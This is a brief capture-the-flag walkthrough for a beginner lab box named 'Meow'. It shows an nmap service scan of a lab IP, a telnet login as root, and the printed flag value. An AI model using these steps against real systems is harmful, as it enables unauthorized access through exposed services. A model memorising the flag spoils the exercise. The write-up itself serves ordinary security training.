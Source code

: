 # CTF Walkthrough: Meow

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** Telnet  
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -sC 10.129.248.200`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            23/tcp open  telnet  Linux telnetd
            Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
            ```

2. Log in to Telnet as root
    - Command: `telnet --user=root 10.129.248.200`

3. Get Flag
    - Command: `cat flag.txt`
    - Flag : b40abdfe23665f766f9c61ecba8a4c19
